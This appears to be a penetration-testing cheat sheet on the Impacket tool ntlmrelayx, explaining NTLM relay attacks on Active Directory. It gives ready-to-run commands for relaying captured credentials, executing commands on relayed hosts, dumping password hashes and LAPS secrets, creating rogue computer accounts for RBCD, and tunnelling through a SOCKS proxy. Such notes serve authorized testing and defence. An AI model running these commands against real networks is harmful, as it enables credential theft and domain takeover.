 **ntlmrelayx** is a powerful tool from the Impacket toolkit used for relaying captured NTLM authentication attempts to other network services. It is particularly effective in Windows Active Directory (AD) environments, allowing attackers to gain unauthorized access to network resources by relaying credentials.


---

## Core Functionality and Setup

|Option|Description|Notes|
|---|---|---|
|**Relaying**|The primary function: receiving a Type 3 NTLM message and forwarding it to the target service.|The tool acts as a listener on multiple ports (SMB/HTTP by default).|
|**Cross-Protocol**|The tool supports relaying between different protocols (e.g., HTTP → SMB, or SMB → **LDAPS**).|This is crucial for attacks against Domain Controllers.|
|**Session Persistence**|After a successful relay, the tool maintains the authenticated session for post-exploitation actions.|This allows for command execution or proxy setup.|

---

## Usage

#### Configuring Target List:

- Create a `targets.txt` file with the IP addresses or hostnames of the target AD servers you want to relay the captured credentials to.
```bash
192.168.1.10 
192.168.1.11
```

#### Starting NTLMRelayx.py:

- Use NTLMRelayx.py to relay captured NTLM authentication attempts to the targets listed in `targets.txt`.
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
- Also, NTLMRelayx.py can be configured to execute a certain command of our election after pawning one of the target hosts. 
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c "<command>"
```


### Advanced Post-Exploitation Actions

`ntlmrelayx.py` offers specific actions that can be performed automatically upon successfully compromising a target, making it highly effective for privilege escalation.

|Action Flag|Target Protocol|Description|Example Command (Defense/Education Focus)|
|---|---|---|---|
|**`-c <command>`**|**SMB**|Executes a specified command (e.g., `whoami`, adding a user) on the successfully relayed target host.|`ntlmrelayx.py -tf targets.txt -c "whoami /all"`|
|**`--dump-secrets`**|**LDAPS**|Attempts high-privilege operations like **DCSync** to dump all user password hashes or retrieve **LAPS passwords** from Active Directory.|`ntlmrelayx.py -t ldaps://DC-IP --dump-secrets`|
|**`--add-computer`**|**LDAPS**|Creates a new computer account in Active Directory. Used as the setup phase for a **Resource-Based Constrained Delegation (RBCD)** attack.|`ntlmrelayx.py -t ldaps://DC-IP --add-computer`|
|**`-i` (Interactive)**|**LDAPS**|Starts a local listener (e.g., on port 9999) that provides an **interactive LDAP shell** for manual queries after a successful relay.|`ntlmrelayx.py -t ldaps://domain.local -i`|
|**`-socks`**|**Any**|Creates a local **SOCKS proxy** (usually on port 1080) to tunnel and direct other attack tools using the relayed user's credentials.|`ntlmrelayx.py -t <IP> -socks`|